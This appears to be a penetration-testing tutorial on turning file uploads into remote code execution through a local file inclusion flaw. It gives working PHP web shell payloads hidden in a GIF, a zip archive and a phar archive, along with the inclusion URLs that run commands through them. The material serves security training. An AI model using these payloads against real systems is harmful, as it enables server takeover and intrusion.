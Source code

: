 File upload functionalities are ubiquitous in most modern web applications, as users usually need to configure their profile and usage of the web application by uploading their data. For attackers, the ability to store files on the back-end server may extend the exploitation of many vulnerabilities, like a file inclusion vulnerability. 

If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type. For example, we can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.

## Image upload
* Very common in most modern web applications, as uploading images is widely regarded as safe if the upload function is securely coded
* The vulnerability, in this case, is not in the file upload form but the file inclusion functionality

#### Crafting Malicious Image
* Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image
* So, we will use an allowed image extension in our file name (e.g. `shell.gif`), and should also include the image magic bytes at the beginning of the file content (e.g. `GIF8`), just in case the upload form checks for both the extension and content type as well

```sh
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

* This file on its own is completely harmless and would not affect normal web applications in the slightest
* However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution

**Note:** We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type.

![](lfi_upload_gif.jpg)

#### Uploaded File Path
* Once we've uploaded our file, all we need to do is include it through the LFI vulnerability
* To include the uploaded file, we need to know the path to our uploaded file
* In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL
* In our case, if we inspect the source code after uploading the image, we can get its URL

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

**Note:** As we can see, we can use `/profile_images/shell.gif` for the file path. If we do not know where the file is uploaded, then we can fuzz for an uploads directory, and then fuzz for our uploaded file, though this may not always work as some web applications properly hide the uploaded files.

* With the uploaded file path at hand, all we need to do is to include the uploaded file in the LFI vulnerable function, and the PHP code should get executed
* `http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id`

![](lfi_include_uploaded_gif.jpg)

* **Note:** To include to our uploaded file, we used `./profile_images/` as in this case the LFI vulnerability does not prefix any directories before our input. In case it did prefix a directory before our input, then we simply need to `../` out of that directory and then use our URL path, as we learned in previous sections.

## Zip Upload
* There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal
* These techniques may become handy in some specific cases where the above technique does not work
* We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code
* `This wrapper isn't enabled by default`, so this method may not always work

```sh
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

**Note:** Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

* Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded)
* `http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id`

![](File%20Inclusion/RCE/Screenshots/data_wrapper_id.png)

**Note:** We added the uploads directory (`./profile_images/`) before the file name, as the vulnerable page (`index.php`) is in the main directory.

## Phar Upload
* We can use the `phar://` wrapper to achieve a similar result

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

* This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with
* We can compile it into a `phar` file and rename it to `shell.jpg`

```sh
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

* Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt` (URL encoded) to get the output of the command we specify with (`&cmd=id`)

![](rfi_localhost.jpg)

**Note:** There is another (obsolete) LFI/uploads attack worth noting, which occurs if file uploads is enabled in the PHP configurations and the `phpinfo()` page is somehow exposed to us. However, this attack is not very common, as it has very specific requirements for it to work (LFI + uploads enabled + old PHP + exposed phpinfo()). If you are interested in knowing more about it, you can refer to [This Link](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf).